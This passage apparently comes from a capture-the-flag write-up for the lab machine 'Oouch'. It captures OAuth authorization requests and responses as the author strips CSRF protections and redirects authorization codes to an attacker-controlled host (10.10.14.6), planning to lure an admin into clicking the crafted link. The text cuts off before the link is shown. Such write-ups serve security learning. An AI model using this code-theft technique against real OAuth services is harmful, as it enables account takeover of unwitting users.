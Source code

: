 csrfmiddlewaretoken=jqwRWtcqi4BTXPHM88lUdUvmFqyCzbWNKicTe2AzGMxTcla1PACQiKx23Wmb0hVR&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Flogin%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize
If I send this, I get back a 302 redirect to the redirect_uri with the code attached:

HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: http://consumer.oouch.htb:5000/oauth/login/token?code=9E3iRBIZpLtvrwuC0NeNuvWckA3yI8
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization, Cookie
The notes above suggest that this endpoint now supports GET. To convert this to a GET, I started by changing POST to GET, but that just leads to the page with the button to click Authorize, just like in the Oauth flow originally. I started playing with various POST parameters from the request above, adding them as GET parameters. Once I add &allow=Authorize to the GET parameters, I get the redirect I’m looking for. I’ll clean up the request a bit more and get:

GET /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read&allow=Authorize&state= HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Connection: close
Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
Upgrade-Insecure-Requests: 1
I was able to take out both the CSRF parameter in the POST and the CSRF cookie. I could also take out the sessionid cookie, but then I get the login page instead of the redirect_uri.

Now I want to change the redirect_url to something else, but it returns a 400 Bad request:

            <h2>Error: invalid_request</h2>
            <p>Mismatching redirect URI.</p>
If I update the client_id and the redirect_uri to match what I registered above, the request will come back without throwing that error:

GET /oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&allow=Authorize&state= HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Connection: close
Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
Upgrade-Insecure-Requests: 1
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: http://10.10.14.6/token?code=eG2kDsLExEKn8tVtzqERCXwyx7b95U
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization, Cookie
CSRF #2
With the GET request above, I can now send this as a link to the admin and have them click on it and redirect to me. I’ll create the following link: